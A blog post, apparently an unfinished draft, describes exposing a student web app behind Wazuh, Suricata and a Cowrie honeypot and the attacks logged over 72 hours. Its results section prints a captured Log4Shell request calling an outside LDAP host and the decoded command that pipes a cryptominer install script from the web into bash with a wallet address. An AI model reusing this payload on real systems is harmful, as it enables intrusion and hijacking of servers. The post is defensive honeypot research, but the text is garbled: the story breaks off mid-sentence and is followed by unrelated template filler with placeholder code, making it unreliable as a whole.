## Blog Post Title From First Header

During Christmas holiday, I was reviewing my Github account and I found a funny web applications that I developed for an universitary course. It's Meme Generator, which obviosly allow user to see communicaty-created meme and, if registered, to create its own memes.
Being an introductory course on web application development, security was unfortunately out-of-scope. I start thinking what could happen if I would expose the app on Internet. Would hackers be interested on breaking it? Would they be able to do that? Would they be able to find it in the very first place?
Let's try it.
Beside the application, I needed:
- A way to understand if something strange is happening on my web server.
- I would like to know what kind of requests reach it.
- A software to centralize all these information.

I found out that Wazuh can satisfy both point 1. and 3. Wazuh is an open-source XDR and SIEM solutions: this means that the agent can monitor the endpoint where application is hosted and figure out if some malicious actions is taking place; moreover the SIEM can collect telemetry data for future analysis.
Regarding point 2. I decided to use Suricata which is a IDS/IPS solution, therefore can help me to understand if some strange requests is hitting the server. Finally, I forwarded Suricata alerts to Wazuh SIEM.

I didn't plan to use an SSH honeypot in the first place, but after some trials, I thought it may be a good idea to make the server more attractive for the bad guys. After trying a bunch of open-source projects, I went with Cowrie.

### Infrastructure Design
I used cloud provider to setup 2 VMs: the first one hosted the web server and it is equipped with Wazuh agent, which monitor the system. Moreover, Suricata has been installed and setup to alert if web server is asked for weird content. Obviously, this one is Internet facing.
A second VM serves to host Wazuh console, which allow me to check alert and collect logs sent by the web-server. It is not internet-facing.
Comunnications between the VMs was filtered by the cloud-provider's firewall: in fact, it only permits the web-server to communicate with Wazuh console. This would avoid an attacker to reach also my central console.

### Web-app Setup
The application is very simple. It has been written mainly in Javascript, using a nodeJS server written in ExpressJS.

### Wazuh Setup
In this test, I deployed Wazuh agent on the web server and Wazuh console. Basically, the agent monitor the hosts, looking for suspicious actions and sends notifications to Wazuh console. Wazuh offers different features to detect malicious actions, but it needs to be properly configured.
Among the different features that can be enabled on Wazuh, I decide to try out the following:
1. File Integroty Monitoring: features that checks some folder/file for changes. It is useful to figure out if sensitive folders has been hacked. Among the common folder (/usr, /bin, /etc), I included also the folder where Cowrie drop files downloaded by user connected via SSH.
2. Integration with VirusTotal: VirusTotal is ... . I used the API key provided with free account to connect Wazuh with VirusTotal. This feature allows to automatically scan monitored folders once a change occurs. 
3. Enable hidden process detection: it allows to detects hidden processes created by rootkit.

In addition, I decide to send to SIEM logs from additional sources:
1. access.log: logs from ExpressJS server. Here I decided to raise the priority of default rules to be alerted on every requests again the the server.
2. cowrie.log: logs from honeypot. Since I would have like to be notified on every suspicious commands or login attempts, I looked at some log entry and construct a couple of rule on Wazuh to be alerted whenever a login attempts or any commands is executed
3. eve.log: logs from Suricata. The alerts from Suricata are automatically sent to dashboard's alerts thanks to predefined rules.

Finally, every configuration has been set to just monitor and alert and avoid blocking malicious actions: in fact, I would like to see how far an attacker could go with webserver configurations.
The configuration is far from being exhaustive but I thought it is enough to understand if some malicious actions is occurring. 

### Suricata Setup
I installed Suricata on the server which raise an alert (then forwarded to Wazuh SIEM) based on a predefined set of rules. I decided to use the "Emerging threats" ruleset (https://community.emergingthreats.net) as recommended by many.

### SSH honeypot Setup
Cowrie is a medium to high interaction SSH honeypot design to emulate UNIX systems and log every actions. It has been written in Python and offers more features than the ones that I tried (for example, it's also a Telnet honeypot).
Even it works enough good "out-of-the-box", allowing to log actions and retrieve files dropped in the fake system, I found the documentation a bit lacky and unclear on some topics.
Cowrie is available in a dockerized version, which make it even more easier to be used. After running the container and forwarding the traffic, it immeatialy starts to log.
I decide to set it up in order to allow login with any username/password after a few login attemps.

### Results
After setting everything up, it's time to run it and wait for results. I run it for about 72 hours.
Despite I would expected more iteractions with the application, actually some strange requests and command has been launch against the server. I believe that most of them were conducted by automatized bots, but I'm quite happy with that anyway.
Here some generals statistics collected with the SIEM.


Here the categorization of malicious traffics given by Suricata. I find some of them interesting:
- Attempted Administrator Privilege Gain. From Suricata it seems to be alerting against CVE_2018_11776. Details here: https://www.keysight.com/blogs/en/tech/nwvs/2022/06/03/strutting-to-remote-code-execution-anatomy-of-cve-2018-11776
- Attempted User Privilege Gain. Even if detection is different, it seems to have the same aim (la prima appartiene a questo ruleset https://github.com/jpalanco/alienvault-ossim/blob/master/snort-rules-default-open/rules/2.9.2/emerging.rules/emerging-exploit.rules)

There's has been also an attempt to drop a cryptominer via Log4J attack. On Christmas day, at 15:58 (Rome time) I receive the following request against the web server: (interessante sapere se è stato rilevato da Suricata, anche se encoded)
```
GET / HTTP/1.1" 200 3230 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//cdn.x4b.lol:3306/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//cdn.x4b.lol:3306/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')"
```

Decoding base64 string, I got:
Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO
```
curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 486xqw7ysXdKw7RkVzT5tdSiDtE6soxUdYaGaGE1GoaCdvBF7rVg5oMXL9pFx3rB1WUCZrJvd6AHMFWipeYt5eFNUx9pmGN
```

(https://blog.criminalip.io/2022/02/11/criminal-ip-analysis-report-on-log4j-attack-patterns/)

"Unfortunately", I didn't use log4j and the attack didn't go well. Anyway, from the decoding string, it is possible to notice that the aim of the attack is to download "xmrig_setup", an opensource miner, and sent crypto to the attacker's wallet.

As soon as I was loosing any hope to get something interesting, a curl command was launch in the honeypot:

---

### This is a header

#### Some T-SQL Code

```tsql
SELECT This, [Is], A, Code, Block -- Using SSMS style syntax highlighting
    , REVERSE('abc')
FROM dbo.SomeTable s
    CROSS JOIN dbo.OtherTable o;
```

#### Some PowerShell Code

```powershell
Write-Host "This is a powershell Code block";

# There are many other languages you can use, but the style has to be loaded first

ForEach ($thing in $things) {
    Write-Output "It highlights it using the GitHub style"
}
```
